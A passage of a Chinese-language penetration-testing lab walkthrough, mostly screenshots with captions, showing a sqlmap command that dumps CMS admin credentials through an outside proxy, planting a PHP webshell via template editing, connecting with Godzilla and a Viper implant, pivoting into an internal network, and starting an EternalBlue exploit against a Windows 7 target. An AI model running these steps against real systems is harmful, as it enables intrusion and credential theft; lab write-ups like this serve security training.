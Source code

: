 ![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9Lwaa2QfFfEUtSfMvnP2tbD4ofrSEGaF3xgaiaNze69Z3OQyTEX8Z9F6ujg/640?wx_fmt=png "")  
  
搞到sqlmap跑一下，记得挂上nps代理  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9LwaGpl0QSfgFGNDNdBMuNmDzfyA4YUpsWUsyuicSibKP5sA3nMHtpMNM2jA/640?wx_fmt=png "")  
  
sqlmap -u "http://192.168.155.129/index.php?r=vul&keyword=1" -D bagecms -T bage_admin -C username,password –dump --proxy "http://43.138.159.166:48888"跑出来管理员的账号密码：admin/123qwe  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9LwacbbFDZodhstwa2vXcvD4DHuDt8gopyeD8MjvgJd8THzURFShyChXzA/640?wx_fmt=png "")  
  
尝试登录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9Lwa1UFadvqKvS6SU584qA8r474XTLmb7t5qst94EzJnib2iarTPY8AgdOTQ/640?wx_fmt=png "")  
  
登录成功，拿到第二个flag为:flag{eS3sd1IKarw}  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9LwaGlywsln7HO63j3k25M4XPbB090nmOrGjBGFreuKFx4gqzolHgcaxLw/640?wx_fmt=png "")  
  
模板管理处可以编辑php文件，测试是否可以上传木马  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9LwaV80TVSUtMwv9cWLg9nhoT2LiaX35O3t7S8Sn0A8gdBewENVcvzdm2YA/640?wx_fmt=png "")  
  
测试一下，可以解析phpinfo()  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9LwaJxstZnfwaaWjko3wFcanNCrAKITnAcrJ5P4S19EQoXxuvzpyYfM2WA/640?wx_fmt=png "")  
  
可行，写入一句话木马  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9LwabrDrwrcup1XVemSh2FWe3tbmdKe9ib5f46Jowyf0Bee4mRMY1fj1fHQ/640?wx_fmt=png "")  
  
哥斯拉连接，连接成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9LwakyRFY78TptFuXSQAsaAm6cKaHPyCbK23bNKjI8RYBoD8983Hf9OGdg/640?wx_fmt=png "")  
  
拿到第三个flag为：flag{23ASfqwr4t2e}  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9Lwa2qcZnxvfx2ibdrOhaZ85815mgzefP0aCmDY2qRVdXicY0zeAgWqjolRQ/640?wx_fmt=png "")  
  
上传木马，上线viper上线成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9LwaD8pjKHD45tWiabKWEliaHlf4ia7KlKXE2dSekDjjIUbuQgVlLKCnTkeLg/640?wx_fmt=png "")  
  
添加内网路由  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9LwaZ1hOT2Yhiaz4fhuOHICibD06CmhSJGdcdJ6SmkbmCI62ZAGWY6slKicFQ/640?wx_fmt=png "")  
  
****  
**渗透window7靶机**  
  
上传fscanarm64检测ip 检测到window7 ip为192.168.166.130存在445端口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVpCN0I7y7uVVGpwg1T9LwaibqbicIS6Sl5MsEQO8eB9EAIUXmD0yp0fG6sP6zAiapxHhxulCw3ibN1icQ/640?wx_fmt=png "")  
  
验证一下永恒之蓝漏洞：直接用msf里面的ms17010 exp进行攻击  
  